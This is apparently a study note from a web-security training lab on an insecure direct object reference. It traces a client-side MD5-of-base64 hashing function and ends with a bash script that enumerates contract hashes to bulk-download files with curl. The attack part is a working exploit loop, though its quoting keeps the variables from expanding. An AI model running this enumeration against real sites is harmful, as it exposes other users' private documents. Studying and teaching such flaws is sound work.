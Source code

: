 ### Example
A webapp has a download file feature but hashes the file name when sending the request to download it

![[Pasted image 20250220171534.png]]

![[Pasted image 20250220171539.png]]

Using a `download.php` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks.

### Function Disclosure
As most modern web applications are developed using JavaScript frameworks, like `Angular`, `React`, or `Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

This function appears to be sending a `POST` request with the `contract` parameter, which is what we saw above. The value it is sending is an `md5` hash using the `CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is `btoa(uid)`, which is the `base64` encoded string of the `uid` variable. Going back to the earlier link where the function was called, we see it calling `downloadContract('1')`. So, the final value being used in the `POST` request is the `base64` encoded string of `1`, which was then `md5` hashed.

We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:

```shell
adot8@htb[/htb]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```
> [!NOTE] Note
> We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.

### Exploit Automation
We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

```bash
#!/bin/bash

url=

for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -OJ '$url/download.php?contract=$hash'
    done
done
```